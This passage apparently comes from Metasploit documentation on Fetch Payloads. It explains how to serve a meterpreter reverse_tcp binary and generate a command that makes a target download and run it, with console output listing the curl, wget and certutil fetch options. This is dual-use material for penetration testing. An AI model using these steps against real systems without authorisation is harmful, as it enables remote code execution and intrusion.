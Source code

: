 1. Create a `linux/x64/meterpreter/reverse_tcp` elf binary to be the served payload.
2. Serve the above served payload on an HTTPS server
3. Start a served payload handler for the served payload to call back to
4. Generate a command to execute on a remote host that will download the served payload and run it.


## A Simple Stand-Alone Example
The fastest way to understand Fetch Payloads is to use them and examine the output. For example, let's assume a Linux
target with the ability to connect back to us with  an HTTP connection and a command execution vulnerability.
First, let's look at the payload in isolation:
```msf
msf6 exploit(multi/ssh/sshexec) > use payload/cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > show options

Module options (payload/cmd/linux/http/x64/meterpreter/reverse_tcp):

Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
FETCH_FILENAME      YXeSdwsoEfOH     no        Name to use on remote system when storing payload
FETCH_SRVHOST       0.0.0.0          yes       Local IP to use for serving payload
FETCH_SRVPORT       8080             yes       Local port to use for serving payload
FETCH_URIPATH                        no        Local URI to use for serving payload
FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload
LHOST                                yes       The listen address (an interface may be specified)
LPORT               4444             yes       The listen port


View the full module info with the info, or info -d command.

msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > 
```

### Options
`FETCH_COMMAND` is the binary we wish to run on the remote host to download the adapted payload.  Currently, the
supported options are `CURL FTP TFTP TNFTP WGET` on Linux hosts and `CURL TFTP CERTUTIL` on Windows hosts.  We'll get
into more details on the binaries later.

`FETCH_SRVHOST` is the IP where the server will listen.

`FETCH_SRVPORT` is the port where the server will listen.

`FETCH_URIPATH` is the URI corresponding to the payload file.  The default value is deterministic based on the
underlying payload so a payload created in msfvenom will match a listener started in Framework assuming the underlying
served payload is the same.
